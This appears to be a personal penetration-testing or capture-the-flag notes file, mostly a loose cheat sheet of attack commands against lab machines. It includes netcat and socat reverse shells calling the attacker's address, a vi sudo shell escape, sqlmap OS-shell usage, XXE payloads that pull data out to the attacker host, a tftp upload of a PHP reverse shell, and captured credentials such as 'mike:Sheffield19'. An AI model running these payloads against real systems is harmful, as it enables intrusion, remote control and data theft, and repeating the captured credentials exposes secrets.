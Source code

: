 
PLEASE COMBINE THIS FILE WITH HELPFUL SHIT   

* we can copy the request into a file and then put the file in `sqlmap` as follows if we're suspecting an sql injection  

```console
sqlmap -r [FILE NAME]
```

* We can also use the switch/option/flag `--os-shell` to get a shell from the sql injection.



rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.189 1234 >/tmp/f

socat exec:'bash -li',pty,stderr,setsid,sane tcp:10.10.15.189:4444

python3 -c 'import pty;pty.spawn("/bin/bash")'

P@s5w0rd!

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf :set shell=/bin/sh
:shell

* To scan for UDP ports with nmap write the following `sudo nmap -Pn -sV -sU 10.129.126.250 `

* `.htpasswd` this file is used for basic HTTP authentication.
* The local file inclusion vul in the http service allowed me to access the `.htpasswd` file which, it seems, contains usernames and password. Indeed, it did contain the username and password of a user named Mike. I'll try and ssh with them. Damn just remembered there's no ssh on the host.
mike:Sheffield19


tftp 10.129.132.172 -m binary -c put revShell.php revShell.php

* It seems like I will be making a container so that I can open it with root privilege.  

[[Linux]]
	
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.15.189/test2.php"> ]>
	
	<!DOCTYPE foo [  

<!ELEMENT foo (#ANY)>

<!ENTITY xxe SYSTEM "https://10.10.15.189/test.php">]><foo>&xxe;</foo>
	
	
	
	<!DOCTYPE root [<!ENTITY steal SYSTEM "php://filter/convert.base64-encode/resource=//10.10.15.189/WhatEver">]>
	
<root><name>test</name><tel>021212</tel><email>&steal;</email><password>pwd</password></root>‌
	
	
	* Try to use the repeater in Burp suite it save sooo much time
	* How to use rsa id to ssh  
	
	ssh -i id_rsa daniel@10.129.140.196
